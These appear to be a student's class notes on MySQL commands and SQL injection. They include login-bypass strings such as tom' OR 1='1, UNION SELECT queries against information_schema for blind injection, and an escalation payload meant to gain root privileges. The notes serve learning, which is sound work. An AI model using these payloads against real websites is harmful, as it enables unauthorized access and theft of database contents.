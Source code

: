 

commands by instructor for Sql 
--------------------------

- mysql (sequil console)
- show databases;
- show tables from session;
- select * from session.<table>;    (example select * from session.user; ) (select name from session.user)
- use <DB table> 
- describe <table>
- select * session.car UNION select tireid,name,size,cost,1,2 from tires

SQL injection
------------------
unstanitized : imput fields can be found using single quite ' 
an aditional single quote will allow aditional statements/clauses 
validation: checks input to ensure it meets criteria (doesnt contain a single quote ' ) 

example of injections ish:  tom' OR 1='1


a semi colen ; can be used to combind statements. 

some sites wont allow stakcing but we can use union to stack it 
example)  UNION SELECT 1,column_name,3 from information_schema.columns where table_name = 'members'
using # or -- tells the database to ignore everything else 


inject imput = 1 OR 1=1; #


SQL inject messaging
----------------------
use a ' to see for error message 
if error use : tom ' OR 1='1 
login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1 
post informs
get gives
use developer consle under network to see where it sends you 


Blind injection
------------------------
has no error messages 
@@version = finds sql version 
Selection=2 UNION SELECT 1,table_name,3 FROM information_schema.tables
Selection=2 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_schema=database()   == the table in use 


exclation
-----------------
escape sanitazation to get root privs 
*******************
email\',<level>) ; # or email\',<level>) ; -- 
